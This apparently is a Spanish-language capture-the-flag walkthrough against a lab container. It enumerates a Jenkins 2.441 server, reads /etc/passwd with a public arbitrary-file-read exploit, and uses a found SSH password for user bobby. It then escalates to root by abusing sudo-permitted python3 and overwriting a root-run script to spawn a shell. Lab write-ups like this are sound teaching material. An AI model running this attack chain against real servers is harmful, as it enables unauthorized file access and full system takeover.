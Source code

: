 ```bash
nmap -p- -O -sC -sV 172.17.0.2
```

```bash
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)  
| ssh-hostkey:    
|   256 94:fb:28:59:7f:ae:02:c0:56:46:07:33:8c:ac:52:85 (ECDSA)  
|_  256 43:07:50:30:bb:28:b0:73:9b:7c:0c:4e:3f:c9:bf:02 (ED25519)  
8080/tcp open  http    Jetty 10.0.18  
|_http-title: Site doesn't have a title (text/html;charset=utf-8).  
|_http-server-header: Jetty(10.0.18)  
| http-robots.txt: 1 disallowed entry    
|_/
```

comprobamos ante que tipo de página web estamos
```bash
whatweb http://172.17.0.2:8080  
http://172.17.0.2:8080 [403 Forbidden] Cookies[JSESSIONID.f4851473], Country[RESERVED][ZZ], HTTPServer[Jetty(10.0.18)], HttpOnly[JSESSIONID.f485147  
3], IP[172.17.0.2], Jenkins[2.441], Jetty[10.0.18], Meta-Refresh-Redirect[/login?from=%2F], Script, UncommonHeaders[x-content-type-options,x-hudson  
,x-jenkins,x-jenkins-session]
```
es un Jenkins 2.441

buscamos posibles vulnerabilidades por version y éste permite realizar un `local file inclusion` 
```bash
searchsploit jenkins 2.441  
--------------------------------------------------------------------------------- 
Exploit Title                                              |  Path  
----------------------------------------------------------------------------------
Jenkins 2.441 - Local File Inclusion                       | java/webapps/51993.py 
----------------------------------------------------------------------------------
```

aunque ahi pone local file inclusion, es Arbitrary File Read (lectura de archivos arbitrarios).
podemos leer el contenido de los archivos del interior
```bash
cp /usr/share/exploitdb/exploits/java/webapps/51993.py exploit.py
```

**Salida**

```  
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin  
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin  
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin  
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin  
jenkins:x:1000:1000::/var/jenkins_home:/bin/bash  
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin  
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin  
sys:x:3:3:sys:/dev:/usr/sbin/nologin  
sync:x:4:65534:sync:/bin:/bin/sync  
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin  
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin  
messagebus:x:100:102::/nonexistent:/usr/sbin/nologin  
root:x:0:0:root:/root:/bin/bash  
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin  
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin  
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin  
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin  
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin  
bin:x:2:2:bin:/bin:/usr/sbin/nologin  
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin  
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin  
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin  
bobby:x:1001:1001::/home/bobby:/bin/bash  
games:x:5:60:games:/usr/games:/usr/sbin/nologin  
pinguinito:x:1002:1002::/home/pinguinito:/bin/bash
```
encontramos los usuarios bobby y pinguinito

con pinguinito no encontramos la contrdaseña, pero sí de bobby
```bash
[22][ssh] host: 172.17.0.2   login: bobby   password: chocolate
```

escalada de privilegios
```bash
sudo -l

(pinguinito) NOPASSWD: /usr/bin/python3
```


```bash
touch exploit.py
echo -e "import os\nos.system(\"bash -p\")" > exploit.py
```

Luego, ejecutamos este script con `sudo` como `root`.

```bash
sudo -u pinguinito /usr/bin/python3 exploit.py
```
```
whoami
# pinguinito
```

```bash
sudo -l
(ALL) NOPASSWD: /usr/bin/python3 /opt/script.py
```
vemos el contenido del script que podemos ejecutar
```bash
$ cat /opt/script.py    
import shutil  
  
def copiar_archivo(origen, destino):  
   shutil.copy(origen, destino)  
   print(f'Archivo copiado de {origen} a {destino}')  
  
if __name__ == '__main__':  
   origen = '/opt/script.py'  
   destino = '/tmp/script_backup.py'  
   copiar_archivo(origen, destino)
```

```bash
echo "import os" > /opt/script.py
echo 'os.system("bash")' >> /opt/script.py
chmod 777 script.py
sudo /usr/bin/python3 /opt/script.py
```

```bash
whoami
# root
```